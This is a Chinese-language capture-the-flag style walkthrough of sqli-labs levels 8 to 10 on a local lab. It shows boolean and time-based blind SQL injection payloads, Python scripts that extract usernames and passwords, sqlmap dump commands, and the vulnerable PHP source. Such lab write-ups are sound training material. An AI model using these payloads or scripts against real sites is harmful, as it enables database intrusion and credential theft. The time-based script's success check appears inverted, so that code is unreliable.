 ```yaml
---
 title: Sqlilabs通关笔记(8-10)盲注
 date: 2020-01-04 17:20:00
 tags: SQL注入
 categories:
---
```


## 第八关 基于GET单引号布尔型盲注

![2020-1-5-9-10-58](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-9-10-58)

<!--more-->
### 存在注入点判断
1. 通过反斜杠可知，错误和正常页面有区别
2. 可以构造payload来进行判断布尔值，从而确定要查询的结果
    > http://127.0.0.1/sqlilabs2/Less-8/index.php?id=1' and 's'=left(database(),1)--+ 页面正常 说明第一个字母为s
    > http://127.0.0.1/sqlilabs2/Less-8/index.php?id=1' and 'se'=left(database(),2)--+ 页面正常 第二个字母e
    ...................
    以此类推可以将数据结果得出

3. 利用二分法构造payload
    - 常用构造函数
        * ascii() 函数，返回字符ascii码值 
            - 参数 : str单字符

        * length() 函数，返回字符串的长度 
            - 参数 : str 字符串

        * left() 函数，返回从左至右截取固定长度的字符串
            - 参数str,length
            - str : 字符串
            - length：截取长度

        * substr()/substring() 函数 ， 返回从pos位置开始到length长度的子字符串
            - 参数，str，pos，length
            - str: 字符串
            - pos：开始位置
            - length： 截取长度

        * if函数，判断条件并作出不同行动
            - 参数，条件，成立，不成立
    
    - 实例构造
        > SELECT * from users WHERE id = 1 and (length(database())=8)
        > SELECT * from users WHERE id = 1 and ascii(substr(database(),8,1))
        > SELECT * from users WHERE id = 1 and 's'=left(database(),1)
        > SELECT * from users WHERE id = 1 and if((length(database())=8),1,0)
    
    - 脚本编写
    ```python
    import string
    import requests
    from time import sleep

    arlist = string.printable

    Baseurl = "http://127.0.0.1/sqlilabs2/Less-8/index.php?id=1\' and "


    def checkurl(url):
        res = requests.get(url)
        if res.ok:
            if 'You are in' in res.text:
                return True
        return False

    def main():
        flag  = ''
        for g in range(100):
            for i in arlist:
                payload = "substr((select group_concat(username,password) from users),%s,1) = \'%s\'--+" % (
                    g, i)
                finalurl = Baseurl + payload
                if checkurl(finalurl):
                    flag = flag + str(i)
                    print(flag)
                sleep(0.2)

    if  __name__ == "__main__":
        main()
    ```

### SQLMAP注入

直接上**payload**

> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-8/index.php?id=1" --technique B -D security -T users -C username,password --dump --threads 10 --batch

## 第九关 基于GET单引号基于时间盲注

![2020-1-5-9-11-26](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-9-11-26)

### 存在注入点判断
1. 加上反斜杠发现页面并无变化
2. 猜测不管语法对错页面都没有变化
3. 尝试使用sleep看是否执行
4. 布尔盲注和时间盲注的最直观区别就是一个可以通过页面区别来判断对错，一个则无法判断对错，只能通过执行的时间来区别对错
5. 查看源码验证布尔盲注和时间盲注
布尔源码如下：
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="5" color="#FFFF00">';
	//echo 'You are in...........';
	//print_r(mysql_error());
	//echo "You have an error in your SQL syntax";
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
```
时间盲注源码如下
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="5" color="#FFFF00">';
	echo 'You are in...........';
	//print_r(mysql_error());
	//echo "You have an error in your SQL syntax";
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}
```
6. 布尔注释掉了输出错误信息，而时间盲注不管对错页面都是You are in..

7. 尝试构造payload
    >  http://127.0.0.1/sqlilabs2/Less-9/index.php?id=1' and if((length(database())=8),sleep(5),1)--+

8. 脚本编写
    ```python
    import string
    import requests
    from time import sleep

    arlist = string.printable

    Baseurl = "http://127.0.0.1/sqlilabs2/Less-9/index.php?id=1\' and "


    def checkurl(url):
        try:
            res = requests.get(url,timeout = 3)
            return True
        except Exception as e:
            return False

    def main():
        flag  = ''
        for g in range(100):
            for i in arlist:
                payload = "if((substr((select group_concat(username,password) from users),%s,1) = \'%s\'),sleep(5),1)--+" % (
                    g, i)
                finalurl = Baseurl + payload
                if checkurl(finalurl):
                    flag = flag + str(i)
                    print(flag)
                sleep(0.2)

    if  __name__ == "__main__":
        main()
    ```

## 第十关 基于GET双引号基于时间盲注

### 存在注入点判断

* 和第九关类似，只不过需要用双引号闭合

payload:

> http://127.0.0.1/sqlilabs2/Less-10/index.php?id=1" and if((length(database())=8),sleep(5),1)--+

### SQLMAP注入

**直接上payload（9-10通用）**

> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-9/index.php?id=1" --technique T -D security -T users -C username,password --dump --threads 10 --batch